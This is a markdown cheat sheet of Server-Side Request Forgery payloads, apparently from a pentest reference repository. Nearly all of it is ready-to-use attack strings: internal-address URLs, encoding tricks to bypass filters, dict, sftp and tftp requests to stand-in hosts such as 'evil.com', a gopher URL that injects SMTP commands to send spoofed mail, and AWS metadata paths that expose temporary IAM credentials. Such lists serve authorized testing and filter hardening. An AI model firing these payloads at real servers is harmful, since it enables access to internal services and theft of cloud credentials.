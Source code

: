 # Server-Side Request Forgery
Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on behalf of him.

## Exploit with localhost

Basic SSRF v1
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

Basic SSRF v2
```
http://localhost:80
http://localhost:443
http://localhost:22
```

Advanced exploit using a redirection
```
1. Create a subdomain pointing to 192.168.0.1 with DNS A record  e.g:ssrf.example.com
2. Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

Advanced exploit using type=url
```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

## Bypassing filters
Bypass localhost with [::]
```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

```
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
```


Bypass localhost with a domain redirecting to locahost
```
http://n-pn.info
```

Bypass localhost with CIDR : 127.x.x.x
```
it's a /8
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

Bypass using a decimal ip location
```
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

Bypass using malformed urls
```
localhost:+11211aaa
localhost:00011211aaaa
```

Bypass using rare address
```
http://0/
```

Bypass using tricks combination
```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

## SSRF via URL Scheme
Dict://   
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:
```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

Sftp://
```
ssrf.php?url=sftp://evil.com:11111/
```

Tftp://
```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

Ldap://
```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

Gopher://
```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

## SSRF on AWS Bucket
Interesting path to look for at http://169.254.169.254
```
Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
```

DNS record
```
http://169.254.169.254
http://metadata.nicob.net/
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
```

HTTP redirect
```
Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
```

Alternate IP encoding
```
http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
```



## Thanks to
* [Hackerone - How To: Server-Side Request Forgery (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
* [Awesome URL abuse for SSRF by @orange_8361 #BHUSA](https://twitter.com/albinowax/status/890725759861403648)
* [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! Orange Tsai](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
* [SSRF Tips - xl7dev](http://blog.safebuff.com/2016/07/03/SSRF-Tips/)
* [SSRF in https://imgur.com/vidgif/url](https://hackerone.com/reports/115748)
* [Les Server Side Request Forgery : Comment contourner un pare-feu - @Geluchat](https://www.dailysecurity.fr/server-side-request-forgery/)
* [AppSecEU15 Server side browsing considered harmful - @Agarri](http://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf)
